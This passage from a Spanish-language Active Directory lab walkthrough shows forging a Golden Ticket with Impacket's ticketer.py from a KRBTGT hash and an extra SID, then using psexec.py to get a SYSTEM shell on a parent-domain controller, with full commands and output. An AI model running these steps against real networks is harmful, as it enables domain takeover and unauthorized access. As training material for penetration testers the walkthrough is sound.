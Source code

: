 Luego, podemos usar [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) del toolkit de Impacket para construir un Golden Ticket. Este ticket será válido para acceder a recursos en el child domain (especificado por `-domain-sid`) y el parent domain (especificado por `-extra-sid`).

### Constructing a Golden Ticket using ticketer.py

```r
ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

El ticket se guardará en nuestro sistema como un [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, que es un archivo usado para guardar credenciales Kerberos. Configurar la variable de entorno `KRB5CCNAME` le dice al sistema que use este archivo para intentos de autenticación Kerberos.

### Setting the KRB5CCNAME Environment Variable

```r
export KRB5CCNAME=hacker.ccache 
```

Podemos verificar si podemos autenticarnos exitosamente en el Domain Controller del parent domain usando [Impacket's version of Psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). Si tiene éxito, seremos llevados a una shell SYSTEM en el Domain Controller objetivo.

### Getting a SYSTEM shell using Impacket's psexec.py

```r
psexec.py LOGISTICS.INLANEFREIGHT.LOCAL/hacker@academy-ea-dc01.inlanefreight.local -k -no-pass -target-ip 172.16.5.5

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Requesting shares on 172.16.5.5.....
[*] Found writable share ADMIN$
[*] Uploading file nkYjGWDZ.exe
[*] Opening SVCManager on 172.16.5.5.....
[*] Creating service eTCU on 172.16.5.5.....
[*] Starting service eTCU.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> hostname
ACADEMY-EA-DC01
```